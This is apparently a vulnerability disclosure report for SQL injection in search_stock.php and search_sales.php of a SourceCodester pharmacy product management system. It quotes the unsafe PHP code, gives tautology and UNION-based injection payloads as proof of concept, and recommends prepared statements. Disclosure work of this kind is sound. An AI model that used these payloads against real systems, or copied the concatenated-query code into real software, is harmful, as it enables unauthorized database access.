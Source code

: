 

# Title: [sql-inject] in [Web-based Pharmacy Product Management System] <= [v1.0]

# **BUG_Author:** [yaklang. io, IRify, Yakit]

## Product Information
- **Vendor Homepage:** [link](https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html)
- **Software Link:** [download-link](https://www.sourcecodester.com/sites/default/files/download/Senior%20Walter/product_expiry.zip)
- **Affected Version:** [<= v1.0]

- **BUG Author:** yaklang. io, IRify 

## Vulnerability Details
### Vulnerable Files
- `search\search_stock.php`
- `search\search_sales.php`

### Vulnerability Type
SQL Injection Vulnerability (CWE-89: SQL Injection)



### Root Cause
The code directly concatenates user input into SQL query strings without any parameterization or input validation, allowing attackers to inject malicious SQL code.
// search\search_stock. php
```php
<?php
include '../database/connect.php';

$name = $_REQUEST['name'];
if ($name !== "") {
	$stmt = $dbh->query("SELECT * FROM tblproduct where product_name='$name'");
	$row = $stmt->fetch();
	$expirydate = $row["expirydate"];
	$stock = $row["qty"];
	$category = $row["category"];
	$productID = $row["productID"];

}
// Store it in a array
$result = array("$expirydate", "$stock","$category","$productID");
// Send in JSON encoded form
$myJSON = json_encode($result);
echo $myJSON;
?>
```
// search\search_sales. php
```php
<?php
include '../database/connect.php';

$name = $_REQUEST['name'];
if ($name !== "") {
	
	$stmt = $dbh->query("SELECT * FROM tblproduct where product_name='$name'");
	$row = $stmt->fetch();
	$expirydate = $row["expirydate"];
	$stock = $row["qty"];
	$category = $row["category"];
	$productID = $row["productID"];
	$unitPrice = $row["price"];

}
// Store it in a array
$result = array("$expirydate", "$stock","$category","$productID","$unitPrice");
// Send in JSON encoded form
$myJSON = json_encode($result);
echo $myJSON;
?>
```

### Impact
- Unauthorized access to database information
- Potential exposure of sensitive information (such as user passwords)
- Possible database corruption or data manipulation


## Description
1. **Vulnerability Details:**
   - In the this php code, username parameter is directly concatenated into SQL statement
   - Both locations contain classic SQL injection vulnerabilities
   - No input validation or escaping mechanisms implemented

2. **Attack Vectors:**
   - Attackers can manipulate SQL query structure using special characters
   - Additional information can be extracted using UNION queries
   - Database information can be obtained through boolean-based blind injection
   - Error-based injection might reveal more information

3. **Attack Payload Examples:**
   sql: `"SELECT * FROM tblproduct where product_name='$name'"`
   ```sql
   ' or '1' = '1
   ' union select ... where '1'='1 
   .... 
   ```
## Code Scan 

this vulnerability find by [IRify](ssa.to) :
![](https://s2.loli.net/2025/04/02/G1ZoueDrVOjBF3n.png)


## Proof of Concept

this valnerability validation by [Yakit](https://www.yaklang.io/)

1. **Authentication Bypass:**
   ```sql
   ' or '1' = '1
   ```

/search/search_stock. php
![](https://s2.loli.net/2025/04/02/8tCvKqrg5slweFM.png)

/search/search_sales. php
![](https://s2.loli.net/2025/04/02/vWhSyXrsF6qxmJf.png)

2. **Information Extraction:**
   ```sql
   ' UNION SELECT 1,2,3,4,database(),user(),version(),table_name FROM information_schema.tables WHERE '1'='1
   ```
   This targets specific user information while maintaining the single-row result.
![](https://s2.loli.net/2025/04/02/Bcbw371lhKCOUZy.png)

## Suggested Repairs
1. Implement Prepared Statements
   ```php
    $stmt = $pdo->prepare("SELECT * FROM tblproduct WHERE product_name = ?");
    $stmt->execute([$name]);
   ```

2. Input Validation

3. Security Recommendations
   - Implement principle of least privilege
   - Encrypt sensitive data storage
   - Implement WAF protection
   - Conduct regular security audits
   - Use ORM frameworks for database operations

## Additional Information
- Refer to OWASP SQL Injection Prevention Guide
- Consider using modern frameworks like MyBatis or Hibernate
- Implement logging and monitoring mechanisms
- References:
  - OWASP SQL Injection Prevention Cheat Sheet
  - CWE-89: SQL Injection
  - CERT Oracle Secure Coding Standard for Java

The severity of this vulnerability is HIGH, and immediate remediation is recommended as it poses a serious threat to the system's data security.

Mitigation Timeline:
- Immediate: Implement prepared statements
- Short-term: Add input validation
- Long-term: Consider migrating to an ORM framework

This vulnerability requires immediate attention due to its potential for significant data breach and system compromise.